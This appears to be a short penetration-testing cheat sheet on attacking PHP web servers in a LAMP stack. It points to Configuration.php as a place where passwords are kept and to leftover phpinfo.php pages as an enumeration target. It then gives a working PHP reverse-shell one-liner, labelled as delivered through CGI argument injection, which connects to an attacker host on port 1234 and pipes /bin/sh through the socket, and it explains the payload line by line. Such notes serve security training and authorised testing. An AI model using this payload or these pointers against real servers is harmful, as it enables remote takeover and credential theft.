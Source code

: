 
# Overview
Part of the common LAMP stack. (Linux, Apache, MySQL, PHP) Can also be windows based with WAMP

Useful Files
`../Configuration.php` : can contain password information

# Tools
## Website enumeration
`http://<target>/phpinfo.php` : can see if php file is leftover from installation


Reverse-shell from PHP CGI argument injection
```php
<?php $sock=fsockopen("<IP>" ,1234);exec("/bin/sh -i <&4 >&4 2>&4");?>
```
### Explanation:

1. **`fsockopen("<IP>", 1234)`**:
    - This function opens a TCP connection to a specified IP address (`<IP>`) on port `1234`.
    - The target (attacker's) system listens on that IP and port, waiting for an incoming connection.
    - The `$sock` variable represents the socket connection established between the attacked server and the attacker.
2. **`exec("/bin/sh -i <&4 >&4 2>&4");`**:
    - This runs the `exec` function, which executes a command on the system where the PHP script is running.
    - The command `/bin/sh -i` starts an interactive shell (`-i` option).
    - The file descriptors `<&4`, `>&4`, and `2>&4` mean:
        - `<&4`: Redirect standard input (`stdin`) from file descriptor 4 (which is connected to the socket).
        - `>&4`: Redirect standard output (`stdout`) to the socket (descriptor 4).
        - `2>&4`: Redirect standard error (`stderr`) to the same socket.